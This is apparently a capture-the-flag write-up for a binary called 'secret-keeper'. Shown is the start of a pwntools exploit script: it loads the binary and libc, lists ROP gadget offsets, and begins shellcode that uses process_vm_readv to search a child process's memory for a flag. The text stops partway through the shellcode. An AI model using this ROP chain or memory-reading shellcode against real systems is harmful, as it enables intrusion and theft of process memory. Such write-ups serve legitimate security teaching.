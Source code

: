 ## Exploit

```python
#!/bin/env python3

import sys
from pwn import *

#
# INIT
#
elf = context.binary = ELF(os.path.join(os.path.dirname(__file__), "bin/secret-keeper"), False)
libc = ELF(os.path.join(os.path.dirname(__file__), "glibc/libc.so.6"), False)

#
# GADGETS
#

# return from game has LSB == 0x72 so we need to find a gadget with same LSB
INIT_GADGET = 0x17aa72                  # ret;
POP_RAX = 0xd2cb7                       # pop rax; ret;
POP_RDI = 0x2493d                       # pop rdi; ret;
POP_RSI = 0x1160b1                      # pop rsi; ret;
POP_RDX_RBX_R12_RBP = 0xa1ff2           # pop rdx; adc al, 0; pop rbx; pop r12; pop rbp; ret;
POP_RCX = 0x11b53e                      # pop rcx; ret;
XOR_R8D_R8D = 0x9b166                   # xor r8d, r8d; ret;
XOR_R8D_EAX_POP_RBX_R12_RBP = 0x12a7a4  # xor r8d, eax; pop rbx; pop r12; pop rbp; ret;

#
# SHELLCODE
#
shellcode = """
    jmp main
get_child_pid:
    mov rax, [rsp-0x1d8]
    add rax, 0x372c
    mov rax, [rax]
    lea rbx, [rip+child_pid]
    mov [rbx], eax
    ret
do_process_vm_readv:
    mov rdi, [rip+child_pid]
    lea rsi, [rip+local_iov]
    mov rdx, 1
    lea r10, [rip+remote_iov]
    mov r8, 1
    mov r9, 0
    mov rax, 0x136
    syscall
    ret
main:
    call get_child_pid
find_mapping:
    lea rax, [rip+curr_page]
    lea rbx, [rip+remote_iov]
    mov rdx, [rax]
    mov [rbx], rdx
    call do_process_vm_readv
    cmp rax, -14
    jne search_flag
    lea rax, [rip+curr_page]
    mov rdx, [rax]
    add rdx, 0x100000
```